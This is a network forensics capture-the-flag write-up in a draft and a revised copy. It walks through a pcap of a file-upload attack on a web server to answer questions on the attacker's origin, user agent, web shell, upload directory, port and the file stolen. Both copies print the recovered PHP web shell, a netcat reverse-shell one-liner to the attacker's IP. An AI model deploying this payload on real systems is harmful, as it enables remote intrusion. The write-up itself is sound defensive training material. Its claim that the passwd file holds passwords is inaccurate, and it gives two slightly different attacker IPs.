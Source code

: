 	Category: Network Forensics

> THIS NEEDS TO BE REVISED FIRST
#### Scenario
An anomaly was discovered within our company's intranet as our Development team found an unusual file on one of our web servers. Suspecting potential malicious activity, the network team has prapared a pcap file with critical network traffic for analysis for the security team, and you have been tasked with analyzing the pcap

1. Understanding the geographical origin of the attack aids in geo-blocking measures and threat intelligence analysis. What city did the attack originate from?
- This is a simple case of geolocating using IP addresses. On Wireshark, I found the attackers IP by going to the Statistics => Conversations => IPv4. 117.11.88.128 is the IP address of the attacker. Plugging this into ipgeolocation.io. I get the country of chine and the city of **Tianjin**.
  
  
2. Knowing the attacker's user-agent assists in creating robust filtering rules. What's the attacker's user agent?
   -  The user-agent is found the HTTP traffic, I picked a packet that has the GET method, because its the first thing I saw--you can pick any HTTP traffic that has a HTTP header in request. You will see in header of the request, in the user-agent line a value of **Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0**
     
3. We need to identify if there were potential vulnerabilities exploited. What's the name of the malicious web shell uploaded?
	   - Going to the Protocol Hierarchy, I immediately saw the "Compuserve GIF" and remembered that the traffic was filled with request for different resources in the site, taking into account the question where it stated a file was uploaded, I immediately extracted all the files in the pcap file. Looking around I can see os command injections being done. Looking at the "upload(2).php" file we can see that a filename of "image.png.php" was uploaded and a php line of code with the function of executing a shell and using netcat to connect to the attackers IP address and a port of 8080. This essentially establishes a backdoor, allowing the attacker to interact with the compromised server remotely
	- line of code 
	```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 117.11.88.124 8080 >/tmp/f");
```
     
     
4. Knowing the directory where files uploaded are stored is important for reinforcing defenses against unauthorized access. Which directory is used by the website to store uploaded files?
	- Looking further in the files extracted, in the upload(2) html response, we can see that a document was moved to the `http://shoporoma.com/reviews/uploads/` directory, which indicates that the malicious script was stored there. 

5. Identifying the port utilized by the web shell helps improve firewall configurations for blocking unauthorized outbound traffic. What port was used by the malicious web shell?. 
	 - This was straightforward as we already found out form the php snippet that the attacker uses leverages port 8080
6. Understanding the value of compromised data assists in prioritizing incident response actions. What file was the attacker trying to exfiltrate?
	- Going back to our extracted files, as mentioned earlier, there were logs of os commands being executed by the attacker. From finding out the current directory to getting the passwd file, which was the goal of the attacker. 


## Summary
In this scenario, the attacker found a file upload vulnerability wherein they were able to upload a malicious php script(upload(2).php). With that script it then executed a shell which connected back to the attacker, allowing for backdoor access into the system. After gaining reverse shell access, the attacker performed some recon on the environment like what directory is the attacker on, what are the files in that directory and the username of the account in the system. After that he exfiltrated the passwd file containing passwords for different accounts. 


# Revised
#### Scenario
An anomaly was discovered within our company's intranet when the Development team found an unusual file on one of our web servers. Suspecting potential malicious activity, the network team has prepared a pcap file with critical network traffic for analysis by the security team, and you have been tasked with analyzing the pcap.

1. Understanding the geographical origin of the attack aids in geo-blocking measures and threat intelligence analysis. What city did the attack originate from?
   - This is a simple case of geolocating using IP addresses. In Wireshark, I found the attacker's IP by going to Statistics => Conversations => IPv4. The IP address of the attacker is 117.11.88.128. Plugging this into ipgeolocation.io, I get the country of China and the city of **Tianjin**.

2. Knowing the attacker's user-agent assists in creating robust filtering rules. What's the attacker's user agent?
   - The user-agent is found in the HTTP traffic. I selected a packet with the GET method because it's the first thing I saw; you can choose any HTTP traffic with an HTTP header in the request. In the header of the request, in the user-agent line, there is a value of **Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0**.

3. We need to identify if there were potential vulnerabilities exploited. What's the name of the malicious web shell uploaded?
   - Going to the Protocol Hierarchy, I immediately saw "Compuserve GIF" and remembered that the traffic was filled with requests for different resources on the site. Considering the question stating that a file was uploaded, I immediately extracted all the files in the pcap file. Looking around, I can see OS command injections being done. Looking at the "upload(2).php" file, we can see that a filename of "image.png.php" was uploaded, containing PHP code with the function of executing a shell and using Netcat to connect to the attacker's IP address on port 8080. This essentially establishes a backdoor, allowing the attacker to interact with the compromised server remotely.
   - Line of code:
     ```php
     <?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 117.11.88.124 8080 >/tmp/f");
     ```

4. Knowing the directory where files uploaded are stored is important for reinforcing defenses against unauthorized access. Which directory is used by the website to store uploaded files?
   - Looking further into the extracted files, in the upload(2) HTML response, we can see that a document was moved to the `http://shoporoma.com/reviews/uploads/` directory, indicating that the malicious script was stored there.

5. Identifying the port utilized by the web shell helps improve firewall configurations for blocking unauthorized outbound traffic. What port was used by the malicious web shell?
   - This was straightforward, as we already found out from the PHP snippet that the attacker leverages port 8080.

6. Understanding the value of compromised data assists in prioritizing incident response actions. What file was the attacker trying to exfiltrate?
   - Going back to our extracted files, as mentioned earlier, there were logs of OS commands being executed by the attacker. From finding out the current directory to getting the passwd file, which was the goal of the attacker.

## Summary
In this scenario, the attacker found a file upload vulnerability wherein they were able to upload a malicious PHP script (upload(2).php). With that script, it then executed a shell that connected back to the attacker, allowing for backdoor access into the system. After gaining reverse shell access, the attacker performed reconnaissance on the environment, determining the directory, files, and the username of the account in the system. Afterward, the attacker exfiltrated the passwd file containing passwords for different accounts.